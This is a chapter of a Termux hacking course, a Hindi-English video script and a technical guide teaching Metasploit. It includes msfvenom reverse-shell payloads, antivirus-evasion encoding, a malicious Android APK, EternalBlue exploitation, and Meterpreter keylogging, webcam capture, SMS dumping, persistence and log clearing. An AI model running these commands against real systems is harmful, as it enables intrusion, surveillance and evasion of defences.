

# Chapter 35: Metasploit Framework Basics

> **Module:** 6 - Security Tools  
> **Chapter:** 35 of 61  
> **Duration:** 25-30 Minutes  
> **Difficulty:** ⭐⭐⭐ Intermediate  

---

## 📋 Chapter Overview

| Section | Content |
|---------|---------|
| Video Script | Complete Hindi narration with timestamps |
| Technical Guide | Detailed Metasploit architecture & usage |
| Installation Guide | Proot-based installation method |
| Commands Reference | 30+ Metasploit commands covered |
| Practice Exercises | Hands-on exploitation labs |
| Troubleshooting | Common Metasploit issues |
| Video Assets | Thumbnail, description, tags |

---

## 🎬 VIDEO SCRIPT (Complete Hindi Narration)

```
═══════════════════════════════════════════════════════════════════════════════
TERMUX FULL COURSE - CHAPTER 35
Title: Metasploit Framework Basics | Complete Guide | T3rmuxk1ng
Duration: 25-30 Minutes
═══════════════════════════════════════════════════════════════════════════════

[INTRO - 0:00 to 1:00]
─────────────────────────────────────────────────────────────────────────────

Namaskar Dosto! Welcome back to Termux Full Course!

Main aapka host hoon T3rmuxk1ng, aur aaj ek bahut important chapter hai -
Chapter 35: Metasploit Framework Basics!

Metasploit - ye naam suna hai? Agar hacking seekh rahe ho, to ye naam 
kabhi na kabhi sunoge zaroor. Metasploit world's most popular penetration 
testing framework hai. Ye ethical hackers, security researchers, aur 
penetration testers sab use karte hain.

Aaj hum Termux mein Metasploit install karenge, samjhenge iska architecture,
seekhenge msfconsole, msfvenom, aur real exploitation karenge!

Ye chapter thoda advanced hai, isliye dhyan se suniye. Chaliye shuru karte hain!

Play button dabaiye, like karein, subscribe karein - notification bell ke saath.

---

[SECTION 1: METASPLOIT INTRODUCTION - 1:00 to 4:00]
─────────────────────────────────────────────────────────────────────────────

To sabse pehle - Metasploit kya hai?

Metasploit ek penetration testing framework hai. Iska matlab ye hai ki 
ye ek collection hai tools ka, exploits ka, payloads ka - jo security 
testing ke liye use hote hain.

History thoda samjhein:
- 2003 mein H.D. Moore ne banaya tha
- 2009 mein Rapid7 company ne acquire kiya
- Ab ye world's #1 penetration testing framework hai

Metasploit kya kya kar sakta hai?

✓ Vulnerability exploitation - System ki weaknesses exploit karna
✓ Payload delivery - Malicious code deliver karna
✓ Post-exploitation - Access ke baad information gathering
✓ Network scanning - Networks aur services discover karna
✓ Bruteforce attacks - Password cracking
✓ Social engineering - Phishing attacks

Real world mein Metasploit ka use:
- Penetration testers - Company ki security test karne ke liye
- Security researchers - Vulnerabilities research karne ke liye
- Bug bounty hunters - Bugs dhundhne ke liye
- Red team operators - Advanced security testing ke liye

⚠️ IMPORTANT WARNING:
Metasploit sirf authorized testing ke liye use karna. Bina permission 
ke kisi system ko hack karna illegal hai. Ye tool educational purpose 
ke liye hai - apne systems test karne ke liye, ya jahan permission ho.

---

[SECTION 2: TERMUX + METASPloit CHALLENGES - 4:00 to 6:00]
─────────────────────────────────────────────────────────────────────────────

Ab Termux mein Metasploit ki baat karte hain.

Normal Termux mein Metasploit directly install nahi ho sakta. Kyun?

Problem ye hai:
1. Metasploit Ruby 2.5+ chahiye, Termux ke packages compatible nahi
2. Database support issues (PostgreSQL)
3. Memory constraints - Metasploit heavy hai
4. Some native extensions compile nahi hote

Solution kya hai?

PROOT! 🎯

Proot ek tool hai jo Android pe Linux environment run karne mein madad 
karta hai. Iski madad se hum Termux mein Ubuntu ya Kali Linux run kar 
sakte hain, aur usme Metasploit install kar sakte hain.

Two methods hain:

METHOD 1: Termux-Metasploit Package (Limited)
- Community maintained package
- Thoda outdated ho sakta hai
- Some features missing
- But easy to install

METHOD 2: Proot-Distro + Ubuntu/Kali (Recommended)
- Full Linux environment
- Latest Metasploit version
- All features working
- Database support

Aaj hum METHOD 2 use karenge - Proot ke saath proper installation.

---

[SECTION 3: PROOT INSTALLATION - 6:00 to 10:00]
─────────────────────────────────────────────────────────────────────────────

Chaliye ab installation start karte hain. Step by step follow karein.

[STEP 1: Update Termux]

Pehle Termux ko update karein:
    pkg update && pkg upgrade -y

Ye basic step hai - har installation se pehle karna chahiye.

[STEP 2: Install Required Packages]

Ab proot-distro aur other tools install karein:
    pkg install proot-distro git wget curl -y

Proot-distro wo package hai jo Linux distributions manage karta hai.

[STEP 3: Install Ubuntu]

Ubuntu install karein:
    proot-distro install ubuntu

Ye download karega Ubuntu rootfs aur setup karega. Thoda time lagega 
depending on internet speed.

[STEP 4: Login to Ubuntu]

Ubuntu mein login karein:
    proot-distro login ubuntu

Aapka prompt change ho jaayega - ubuntu user mein aa jaoge.

[STEP 5: Update Ubuntu]

Ubuntu ko update karein:
    apt update && apt upgrade -y

[STEP 6: Install Dependencies]

Metasploit ke liye dependencies install karein:
    apt install build-essential libreadline-dev libssl-dev libpq-dev \
    libsqlite3-dev ruby-dev ruby-bundler postgresql -y

Ye thoda time lagega - packages download aur install honge.

---

[SECTION 4: METASPLOIT INSTALLATION - 10:00 to 14:00]
─────────────────────────────────────────────────────────────────────────────

Ab Metasploit install karte hain.

[OPTION A: Via MSF Installer (Easiest)]

    curl https://raw.githubusercontent.com/rapid7/metasploit-omnibus/master/config/templates/metasploit-framework-wrappers/msfupdate.erb > msfinstall
    chmod 755 msfinstall
    ./msfinstall

[OPTION B: Manual Installation]

    # Install Ruby
    apt install ruby-full -y
    
    # Clone Metasploit
    git clone https://github.com/rapid7/metasploit-framework.git
    
    # Navigate to directory
    cd metasploit-framework
    
    # Install gems
    bundle install

First time installation 15-20 minutes lag sakta hai. Patience rakhein.

Installation verify karein:
    msfconsole --version

Agar version output aaya - installation successful! 🎉

---

[SECTION 5: METASPLOIT ARCHITECTURE - 14:00 to 17:00]
─────────────────────────────────────────────────────────────────────────────

Ab samjhein Metasploit ka architecture. Ye important hai.

┌─────────────────────────────────────────────────────────────────────────┐
│                    METASPLOIT FRAMEWORK ARCHITECTURE                     │
├─────────────────────────────────────────────────────────────────────────┤
│                                                                          │
│   ┌─────────────────────────────────────────────────────────────────┐   │
│   │                         msfconsole                               │   │
│   │              (Primary Command-Line Interface)                    │   │
│   └─────────────────────────────────────────────────────────────────┘   │
│                                   │                                      │
│          ┌────────────────────────┼────────────────────────┐            │
│          ▼                        ▼                        ▼            │
│   ┌────────────┐          ┌────────────┐          ┌────────────┐        │
│   │  EXPLOITS  │          │  PAYLOADS  │          │  AUXILIARY │        │
│   │            │          │            │          │            │        │
│   │ Attack code│          │ Shellcode  │          │ Scanners   │        │
│   │ for vulns  │          │ to execute │          │ Fuzzers    │        │
│   └────────────┘          └────────────┘          └────────────┘        │
│                                                                          │
│   ┌────────────┐          ┌────────────┐          ┌────────────┐        │
│   │   POST     │          │  ENCODERS  │          │   NOPS     │        │
│   │            │          │            │          │            │        │
│   │ Post-      │          │ Obfuscate  │          │ No         │
│   │ exploit    │          │ payloads   │          │ Operation  │        │
│   └────────────┘          └────────────┘          └────────────┘        │
│                                                                          │
│   ┌─────────────────────────────────────────────────────────────────┐   │
│   │                        msfvenom                                  │   │
│   │            (Payload Generation & Encoding Tool)                  │   │
│   └─────────────────────────────────────────────────────────────────┘   │
│                                                                          │
│   ┌─────────────────────────────────────────────────────────────────┐   │
│   │                       DATABASE (PostgreSQL)                      │   │
│   │            (Workspace, Hosts, Services, Credentials)             │   │
│   └─────────────────────────────────────────────────────────────────┘   │
│                                                                          │
└─────────────────────────────────────────────────────────────────────────┘

MODULES EXPLAINED:

1. EXPLOITS - Ye wo code hai jo vulnerability exploit karta hai
   Example: exploit/windows/smb/ms17_010_eternalblue
   
2. PAYLOADS - Ye wo code hai jo target system pe execute hota hai
   Example: windows/meterpreter/reverse_tcp
   
3. AUXILIARY - Scanners, fuzzers, and other non-exploit tools
   Example: auxiliary/scanner/portscan/tcp
   
4. POST - Post-exploitation modules
   Example: post/windows/gather/hashdump
   
5. ENCODERS - Payloads ko encode karte hain AV bypass ke liye
   Example: x86/shikata_ga_nai
   
6. NOPS - No-operation sleds for buffer overflow exploits

---

[SECTION 6: MSFCONSOLE BASICS - 17:00 to 21:00]
─────────────────────────────────────────────────────────────────────────────

Ab msfconsole use karna seekhte hain. Ye Metasploit ka main interface hai.

Msfconsole start karein:
    msfconsole

First time mein thoda time lagega load hone mein.

[SCREEN: Msfconsole Welcome Banner]

Aapko ek cool ASCII art banner dikhega, aur phir prompt:
    msf6 >

Ye "msf6" prompt hai. Yahan se aap commands run kar sakte ho.

BASIC COMMANDS:

1. HELP - Saare commands dekho
    msf6 > help

2. VERSION - Metasploit version
    msf6 > version

3. BANNER - ASCII banner dekho
    msf6 > banner

4. SHOW - Modules display karein
    msf6 > show exploits
    msf6 > show payloads
    msf6 > show auxiliary
    msf6 > show encoders
    msf6 > show post

5. SEARCH - Modules search karein
    msf6 > search apache
    msf6 > search type:exploit platform:windows smb
    msf6 > search cve:2017

6. INFO - Module ki details
    msf6 > info exploit/windows/smb/ms17_010_eternalblue

7. USE - Module select karein
    msf6 > use exploit/windows/smb/ms17_010_eternalblue

8. BACK - Module se bahar aao
    msf6 exploit(windows/smb/ms17_010_eternalblue) > back

9. EXIT - Msfconsole se bahar aao
    msf6 > exit

---

[SECTION 7: SEARCH COMMAND DEEP DIVE - 21:00 to 23:30]
─────────────────────────────────────────────────────────────────────────────

Search command bahut powerful hai. Iske filters samjhein:

SEARCH BY NAME:
    msf6 > search eternalblue

SEARCH BY TYPE:
    msf6 > search type:exploit eternalblue
    msf6 > search type:auxiliary scanner
    msf6 > search type:payload meterpreter

SEARCH BY PLATFORM:
    msf6 > search platform:windows smb
    msf6 > search platform:android
    msf6 > search platform:linux apache

SEARCH BY CVE:
    msf6 > search cve:2017
    msf6 > search cve:2021-44228

SEARCH BY APP:
    msf6 > search app:apache
    msf6 > search app:mysql

COMBINED SEARCH:
    msf6 > search type:exploit platform:windows cve:2017

SEARCH RESULTS:
    #   Name                           Date       Rank    Check  Description
    0   exploit/windows/smb/...        2017-03-14 average  Yes    MS17-010...

Result ka number use karo:
    msf6 > use 0

---

[SECTION 8: EXPLOITATION WORKFLOW - 23:30 to 26:30]
─────────────────────────────────────────────────────────────────────────────

Ab real exploitation workflow samjhein.

STEP-BY-STEP PROCESS:

STEP 1: Search for exploit
    msf6 > search type:exploit platform:windows smb

STEP 2: Select exploit
    msf6 > use exploit/windows/smb/ms17_010_eternalblue

STEP 3: Check options
    msf6 exploit(...) > show options

    Name     Current Setting  Required  Description
    ----     ---------------  --------  -----------
    RHOSTS                    yes       The target address
    RPORT    445              yes       The target port

STEP 4: Set required options
    msf6 exploit(...) > set RHOSTS 192.168.1.100
    msf6 exploit(...) > set RPORT 445

STEP 5: Set payload
    msf6 exploit(...) > set payload windows/meterpreter/reverse_tcp

STEP 6: Set payload options
    msf6 exploit(...) > set LHOST 192.168.1.50  # Your IP
    msf6 exploit(...) > set LPORT 4444

STEP 7: Verify configuration
    msf6 exploit(...) > show options

STEP 8: Check if exploit works
    msf6 exploit(...) > check

STEP 9: Run exploit
    msf6 exploit(...) > exploit
    or
    msf6 exploit(...) > run

SUCCESS? Meterpreter session mil jaayega!

---

[SECTION 9: PAYLOADS & MSFVENOM - 26:30 to 30:00]
─────────────────────────────────────────────────────────────────────────────

Ab msfvenom seekhte hain. Ye standalone payloads generate karta hai.

MSFVENOM SYNTAX:
    msfvenom -p <payload> LHOST=<ip> LPORT=<port> -f <format> -o <output>

COMMON PAYLOADS:

Windows Reverse Shell:
    msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.50 LPORT=4444 -f exe -o shell.exe

Windows Bind Shell:
    msfvenom -p windows/meterpreter/bind_tcp RHOST=192.168.1.100 LPORT=4444 -f exe -o bind.exe

Android Payload:
    msfvenom -p android/meterpreter/reverse_tcp LHOST=192.168.1.50 LPORT=4444 -o app.apk

Linux Payload:
    msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=192.168.1.50 LPORT=4444 -f elf -o shell.elf

PHP Payload:
    msfvenom -p php/meterpreter/reverse_tcp LHOST=192.168.1.50 LPORT=4444 -f raw -o shell.php

ENCODING PAYLOADS:
    msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.50 LPORT=4444 -e x86/shikata_ga_nai -i 5 -f exe -o encoded.exe

-e = encoder
-i = iterations (kitne baar encode karna hai)

LIST PAYLOADS:
    msfvenom --list payloads

LIST ENCODERS:
    msfvenom --list encoders

LIST FORMATS:
    msfvenom --list formats

---

[SECTION 10: HANDLER SETUP - 30:00 to 33:00]
─────────────────────────────────────────────────────────────────────────────

Jab aapne standalone payload banaya (msfvenom se), to usko catch karne 
ke liye handler chahiye.

Handler setup kaise karein:

STEP 1: Start msfconsole
    msfconsole

STEP 2: Use exploit/multi/handler
    msf6 > use exploit/multi/handler

STEP 3: Set payload (same as msfvenom payload)
    msf6 exploit(multi/handler) > set payload windows/meterpreter/reverse_tcp

STEP 4: Set LHOST (your IP)
    msf6 exploit(multi/handler) > set LHOST 192.168.1.50

STEP 5: Set LPORT (same as in payload)
    msf6 exploit(multi/handler) > set LPORT 4444

STEP 6: Run handler
    msf6 exploit(multi/handler) > exploit

[*] Started reverse TCP handler on 192.168.1.50:4444

Ab ye wait karega connection ke liye. Jab target machine pe payload 
run hoga, aapko session mil jaayega!

AUTOMATED HANDLER:
    msfconsole -x "use exploit/multi/handler; set payload windows/meterpreter/reverse_tcp; set LHOST 192.168.1.50; set LPORT 4444; exploit;"

---

[SECTION 11: METERPRETER BASICS - 33:00 to 37:00]
─────────────────────────────────────────────────────────────────────────────

Meterpreter ek advanced payload hai jo bahut saare features deta hai.

Jab session mil jaaye, Meterpreter prompt aayega:
    meterpreter >

BASIC METERPRETER COMMANDS:

System Information:
    meterpreter > sysinfo
    meterpreter > getuid          # Current user
    meterpreter > getpid          # Process ID
    meterpreter > ps              # Running processes

File System:
    meterpreter > pwd             # Current directory
    meterpreter > ls              # List files
    meterpreter > cd C:\\Users    # Change directory
    meterpreter > cat file.txt    # Read file
    meterpreter > download file   # Download file
    meterpreter > upload file     # Upload file
    meterpreter > mkdir folder    # Create directory
    meterpreter > rm file         # Delete file

Network:
    meterpreter > ipconfig        # Network interfaces
    meterpreter > netstat         # Network connections
    meterpreter > route           # Routing table

Process Management:
    meterpreter > migrate PID     # Migrate to another process
    meterpreter > execute -f cmd.exe -i -H  # Execute command
    meterpreter > kill PID        # Kill process

Privilege Escalation:
    meterpreter > getsystem       # Try to get SYSTEM
    meterpreter > getprivs        # Get privileges

Hash Dump:
    meterpreter > hashdump        # Dump password hashes

Screenshots & Keylogging:
    meterpreter > screenshot      # Take screenshot
    meterpreter > keyscan_start   # Start keylogger
    meterpreter > keyscan_dump    # Dump keystrokes
    meterpreter > keyscan_stop    # Stop keylogger

Webcam:
    meterpreter > webcam_list     # List webcams
    meterpreter > webcam_snap     # Take photo

Persistence:
    meterpreter > run persistence -U -i 10 -p 4444 -r 192.168.1.50

Shell Access:
    meterpreter > shell           # Get command shell
    meterpreter > execute -f cmd.exe -i -H

Session Management:
    meterpreter > background      # Background session
    msf6 > sessions -l            # List sessions
    msf6 > sessions -i 1          # Interact with session 1
    msf6 > sessions -k 1          # Kill session 1

---

[SECTION 12: POST-EXPLOITATION MODULES - 37:00 to 40:00]
─────────────────────────────────────────────────────────────────────────────

Meterpreter mein hum post modules run kar sakte hain.

USEFUL POST MODULES:

Information Gathering:
    run post/windows/gather/enum_system
    run post/windows/gather/enum_applications
    run post/windows/gather/enum_network
    run post/windows/gather/enum_shares

Credential Harvesting:
    run post/windows/gather/smart_hashdump
    run post/windows/gather/credentials/gpp
    run post/windows/gather/enum_chrome

Privilege Escalation:
    run post/multi/recon/local_exploit_suggester

Persistence:
    run post/windows/manage/persistence

Pivoting:
    run post/multi/manage/autoroute

HOW TO USE POST MODULES:

Inside meterpreter:
    meterpreter > run post/windows/gather/enum_system

From msfconsole:
    msf6 > use post/windows/gather/hashdump
    msf6 post(...) > set SESSION 1
    msf6 post(...) > run

---

[SECTION 13: COMMON EXPLOITS DEMO - 40:00 to 44:00]
─────────────────────────────────────────────────────────────────────────────

Kuch common exploits dekhein:

1. VSFTPD Backdoor (vsftpd-2.3.4):
    use exploit/unix/ftp/vsftpd_234_backdoor
    set RHOSTS target_ip
    run

2. Apache Tomcat Manager:
    use exploit/multi/http/tomcat_mgr_upload
    set RHOSTS target_ip
    set HttpUsername admin
    set HttpPassword admin
    run

3. Samba Symlink:
    use exploit/multi/samba/symlink_traversal
    set RHOSTS target_ip
    run

4. Shellshock:
    use exploit/multi/http/apache_mod_cgi_bash_env_exec
    set RHOSTS target_ip
    set TARGETURI /cgi-bin/vulnerable.cgi
    run

---

[SECTION 14: ANDROID PAYLOADS - 44:00 to 47:00]
─────────────────────────────────────────────────────────────────────────────

Android ke liye payload banana:

BASIC ANDROID PAYLOAD:
    msfvenom -p android/meterpreter/reverse_tcp LHOST=192.168.1.50 LPORT=4444 -o malicious.apk

EMBEDDING IN LEGITIMATE APP:
    # Using apktool and smali (advanced)
    # Or use tools like TheFatRat

HANDLER FOR ANDROID:
    use exploit/multi/handler
    set payload android/meterpreter/reverse_tcp
    set LHOST 192.168.1.50
    set LPORT 4444
    run

ANDROID METERPRETER COMMANDS:
    meterpreter > dump_calllog     # Get call logs
    meterpreter > dump_contacts    # Get contacts
    meterpreter > dump_sms         # Get SMS
    meterpreter > geolocate        # Get GPS location
    meterpreter > webcam_list      # List cameras
    meterpreter > webcam_snap      # Take photo

---

[SECTION 15: ENCODING & EVASION - 47:00 to 49:30]
─────────────────────────────────────────────────────────────────────────────

Antivirus bypass ke liye encoding:

COMMON ENCODERS:
    x86/shikata_ga_nai           # Most popular
    x86/call4_dword_xor
    x86/countdown
    x86/fnstenv_mov

MULTI-ENCODING:
    msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.50 LPORT=4444 -e x86/shikata_ga_nai -i 10 -f exe -o encoded.exe

ENCODER LIST:
    msfvenom --list encoders

EVASION TECHNIQUES:
1. Multiple encoding iterations
2. Custom payloads
3. Binary modification
4. Crypters
5. Process injection

NOTE: Modern AVs are very good at detecting encoded payloads. 
For real evasion, you need custom development.

---

[SECTION 16: DATABASE USAGE - 49:30 to 52:00]
─────────────────────────────────────────────────────────────────────────────

Metasploit database features:

START DATABASE:
    service postgresql start
    msfdb init

CONNECT TO DATABASE:
    msfconsole
    msf6 > db_connect

CHECK STATUS:
    msf6 > db_status

WORKSPACES:
    msf6 > workspace              # List workspaces
    msf6 > workspace -a project1  # Add workspace
    msf6 > workspace project1     # Switch workspace
    msf6 > workspace -d project1  # Delete workspace

IMPORT SCAN RESULTS:
    msf6 > db_import nmap_scan.xml

EXPORT DATA:
    msf6 > db_export -f xml backup.xml

HOSTS:
    msf6 > hosts                  # List hosts
    msf6 > hosts -S 192.168       # Search hosts

SERVICES:
    msf6 > services               # List services
    msf6 > services -S ssh        # Search services

CREDENTIALS:
    msf6 > creds                  # List credentials
    msf6 > creds add user:admin pass:password

LOOTS:
    msf6 > loot                   # List collected data

---

[SECTION 17: BEST PRACTICES & SUMMARY - 52:00 to 55:00]
─────────────────────────────────────────────────────────────────────────────

METASPLOIT BEST PRACTICES:

✓ Always test on authorized systems only
✓ Document everything you do
✓ Use workspaces for organization
✓ Keep Metasploit updated
✓ Understand what exploit does before running
✓ Check for false positives
✓ Don't rely solely on Metasploit
✓ Combine with manual testing
✓ Use proper encoding for payloads
✓ Clean up after testing

CHAPTER SUMMARY:

Aaj humne seekha:
✅ Metasploit Framework introduction
✅ Proot-based installation in Termux
✅ Metasploit architecture - modules explained
✅ Msfconsole interface - search, use, info commands
✅ Exploitation workflow - complete process
✅ Msfvenom - payload generation
✅ Handler setup for standalone payloads
✅ Meterpreter basics - post-exploitation
✅ Common exploits
✅ Android payload creation
✅ Encoding and evasion techniques
✅ Database usage

IMPORTANT COMMANDS YAAD RAKHEIN:

┌─────────────────────────────────────────────────────────────────────────┐
│                    ESSENTIAL METASPLOIT COMMANDS                         │
├─────────────────────────────────────────────────────────────────────────┤
│ msfconsole              │ Start Metasploit console                       │
│ search <term>           │ Search for modules                             │
│ use <module>            │ Select a module                                │
│ show options            │ Display module options                         │
│ set <option> <value>    │ Set an option                                  │
│ setg <option> <value>   │ Set global option                              │
│ exploit / run           │ Execute exploit                                │
│ msfvenom -p ...         │ Generate payload                               │
│ sessions -l             │ List active sessions                           │
│ sessions -i <id>        │ Interact with session                          │
│ db_status               │ Check database connection                      │
│ workspace               │ Manage workspaces                              │
└─────────────────────────────────────────────────────────────────────────┘

---

[OUTRO - 55:00 to 56:00]
─────────────────────────────────────────────────────────────────────────────

Dosto, Chapter 35 complete!

Metasploit ek bahut powerful framework hai. Jo humne aaj seekha wo basics 
the. Iske baad bahut practice chahiye real mastery ke liye.

Agar ye video helpful lagi:
👍 Like button press karein
🔔 Subscribe karein, notification bell on karein
💬 Koi sawal ho to comment mein poochein
📤 Share karein friends ke saath

Next Chapter 36 mein hum PhoneSploit aur ADB tools seekhenge.

Thank you for watching! See you in Chapter 36!

═══════════════════════════════════════════════════════════════════════════════
```

---

## 📖 TECHNICAL GUIDE

### 1. Metasploit Framework Overview

```
┌─────────────────────────────────────────────────────────────────────────┐
│                    METASPLOIT FRAMEWORK COMPONENTS                       │
├─────────────────────────────────────────────────────────────────────────┤
│                                                                          │
│  ┌────────────────────────────────────────────────────────────────────┐ │
│  │                         INTERFACES                                  │ │
│  ├────────────────┬─────────────────┬─────────────────┬───────────────┤ │
│  │   msfconsole   │    msfvenom     │      msfcli     │   msfgui      │ │
│  │   (Primary)    │  (Payload Gen)  │   (CLI Tool)    │  (GUI - Old)  │ │
│  └────────────────┴─────────────────┴─────────────────┴───────────────┘ │
│                                                                          │
│  ┌────────────────────────────────────────────────────────────────────┐ │
│  │                          MODULES                                    │ │
│  ├────────────────┬─────────────────┬─────────────────┬───────────────┤ │
│  │    Exploits    │    Payloads     │   Auxiliary     │     Post      │ │
│  │  (2000+)       │   (1000+)       │   (1500+)       │    (500+)     │ │
│  └────────────────┴─────────────────┴─────────────────┴───────────────┘ │
│                                                                          │
│  ┌────────────────────────────────────────────────────────────────────┐ │
│  │                         TOOLS                                       │ │
│  ├────────────────┬─────────────────┬─────────────────┬───────────────┤ │
│  │    Encoders    │      NOPS       │   Evasion      │   NOP Generators│ │
│  └────────────────┴─────────────────┴─────────────────┴───────────────┘ │
│                                                                          │
│  ┌────────────────────────────────────────────────────────────────────┐ │
│  │                         DATABASE                                    │ │
│  ├────────────────────────────────────────────────────────────────────┤ │
│  │                      PostgreSQL Backend                             │ │
│  │        (Workspaces, Hosts, Services, Creds, Loot)                  │ │
│  └────────────────────────────────────────────────────────────────────┘ │
│                                                                          │
└─────────────────────────────────────────────────────────────────────────┘
```

### 2. Installation Methods

#### Method A: Proot-Distro (Recommended for Termux)

```bash
# Step 1: Update Termux
pkg update && pkg upgrade -y

# Step 2: Install proot-distro
pkg install proot-distro git wget curl -y

# Step 3: Install Ubuntu
proot-distro install ubuntu

# Step 4: Login to Ubuntu
proot-distro login ubuntu

# Step 5: Update Ubuntu
apt update && apt upgrade -y

# Step 6: Install dependencies
apt install -y build-essential libreadline-dev libssl-dev \
libpq-dev libsqlite3-dev ruby-dev ruby-bundler postgresql \
wget curl git

# Step 7: Install Metasploit via installer
curl https://raw.githubusercontent.com/rapid7/metasploit-omnibus/master/config/templates/metasploit-framework-wrappers/msfupdate.erb > msfinstall
chmod 755 msfinstall
./msfinstall

# Step 8: Verify installation
msfconsole --version
```

#### Method B: Manual Installation

```bash
# After logging into Ubuntu proot
apt install -y ruby-full

# Clone Metasploit
git clone https://github.com/rapid7/metasploit-framework.git
cd metasploit-framework

# Install bundler
gem install bundler

# Install dependencies
bundle install

# Create symlink
ln -s $(pwd)/msfconsole /usr/local/bin/msfconsole
ln -s $(pwd)/msfvenom /usr/local/bin/msfvenom
```

### 3. Module Types Explained

| Module Type | Description | Count | Example |
|-------------|-------------|-------|---------|
| **Exploits** | Code that exploits vulnerabilities | 2000+ | exploit/windows/smb/ms17_010_eternalblue |
| **Payloads** | Code executed on target | 1000+ | windows/meterpreter/reverse_tcp |
| **Auxiliary** | Scanners, fuzzers, etc. | 1500+ | auxiliary/scanner/portscan/tcp |
| **Post** | Post-exploitation modules | 500+ | post/windows/gather/hashdump |
| **Encoders** | Encode/obfuscate payloads | 50+ | x86/shikata_ga_nai |
| **NOPS** | No-operation sleds | 10+ | nop/x86/single_byte |

### 4. Payload Types

```
┌─────────────────────────────────────────────────────────────────────────┐
│                        PAYLOAD CATEGORIES                                │
├─────────────────────────────────────────────────────────────────────────┤
│                                                                          │
│  ┌───────────────────────────────────────────────────────────────────┐  │
│  │                        BIND PAYLOADS                               │  │
│  │  Target listens on a port, attacker connects to it               │  │
│  │  Example: windows/meterpreter/bind_tcp                           │  │
│  │  Use when: Target behind NAT, can't reach attacker               │  │
│  └───────────────────────────────────────────────────────────────────┘  │
│                                                                          │
│  ┌───────────────────────────────────────────────────────────────────┐  │
│  │                       REVERSE PAYLOADS                            │  │
│  │  Target connects back to attacker                                │  │
│  │  Example: windows/meterpreter/reverse_tcp                        │  │
│  │  Use when: Target has outbound access, attacker has public IP    │  │
│  └───────────────────────────────────────────────────────────────────┘  │
│                                                                          │
│  ┌───────────────────────────────────────────────────────────────────┐  │
│  │                      STAGED PAYLOADS                              │  │
│  │  Small initial stager, then downloads full payload               │  │
│  │  Example: windows/meterpreter/reverse_tcp (staged)               │  │
│  │  Pros: Smaller initial size                                      │  │
│  └───────────────────────────────────────────────────────────────────┘  │
│                                                                          │
│  ┌───────────────────────────────────────────────────────────────────┐  │
│  │                     STAGELESS PAYLOADS                            │  │
│  │  Complete payload in one file                                    │  │
│  │  Example: windows/meterpreter_reverse_tcp (stageless)            │  │
│  │  Pros: Works when staging is blocked                             │  │
│  └───────────────────────────────────────────────────────────────────┘  │
│                                                                          │
│  ┌───────────────────────────────────────────────────────────────────┐  │
│  │                      METERPRETER                                  │  │
│  │  Advanced payload with many features                             │  │
│  │  Features: File ops, screenshot, keylog, webcam, pivoting        │  │
│  └───────────────────────────────────────────────────────────────────┘  │
│                                                                          │
└─────────────────────────────────────────────────────────────────────────┘
```

### 5. Exploitation Workflow

```
┌─────────────────────────────────────────────────────────────────────────┐
│                    METASPLOIT EXPLOITATION WORKFLOW                      │
├─────────────────────────────────────────────────────────────────────────┤
│                                                                          │
│  ┌──────────┐    ┌──────────┐    ┌──────────┐    ┌──────────┐          │
│  │ RECON    │ -> │ SEARCH   │ -> │ SELECT   │ -> │ CONFIG   │          │
│  │          │    │          │    │          │    │          │          │
│  │ Target   │    │ Find     │    │ Choose   │    │ Set      │          │
│  │ Info     │    │ Exploit  │    │ Module   │    │ Options  │          │
│  └──────────┘    └──────────┘    └──────────┘    └──────────┘          │
│       │              │               │               │                  │
│       ▼              ▼               ▼               ▼                  │
│  - Port scan    - search cmd    - use cmd      - set RHOSTS            │
│  - Service id   - CVE search    - info cmd     - set PAYLOAD           │
│  - OS detect    - App search    - check vuln   - set LHOST             │
│                                                                  │
│  ┌──────────┐    ┌──────────┐    ┌──────────┐    ┌──────────┐          │
│  │ EXECUTE  │ -> │ SESSION  │ -> │ POST-EXP │ -> │ CLEANUP  │          │
│  │          │    │          │    │          │    │          │          │
│  │ Run      │    │ Get      │    │ Gather   │    │ Remove   │          │
│  │ Exploit  │    │ Access   │    │ Info     │    │ Traces   │          │
│  └──────────┘    └──────────┘    └──────────┘    └──────────┘          │
│       │              │               │               │                  │
│       ▼              ▼               ▼               ▼                  │
│  - exploit cmd  - meterpreter  - hashdump      - clear logs           │
│  - run cmd      - shell        - screenshot    - remove files          │
│  - check cmd    - pivot        - persistence   - close sessions        │
│                                                                          │
└─────────────────────────────────────────────────────────────────────────┘
```

### 6. Msfvenom Reference

```bash
# Msfvenom Syntax
msfvenom -p <payload> [options] -f <format> -o <output_file>

# Common Options
-p, --payload    <payload>     Payload to use
-f, --format     <format>      Output format (exe, elf, apk, php, etc.)
-o, --out        <path>        Output file path
-e, --encoder    <encoder>     Encoder to use
-i, --iterations <count>       Encoding iterations
-x, --template   <path>        Custom executable template
-k, --keep                     Keep template functionality
-a, --arch       <arch>        Architecture (x86, x64)
--platform       <platform>    Platform (windows, linux, android)
-s, --space      <bytes>       Maximum payload size
-b, --bad-chars  <chars>       Characters to avoid
-n, --nopsled    <count>       NOP sled size

# Payload Options (set during generation)
LHOST    Attacker IP (for reverse shells)
LPORT    Attacker port
RHOST    Target IP (for bind shells)
RPORT    Target port
```

### 7. Windows Payload Formats

| Format | Extension | Description |
|--------|-----------|-------------|
| exe | .exe | Windows executable |
| dll | .dll | Dynamic link library |
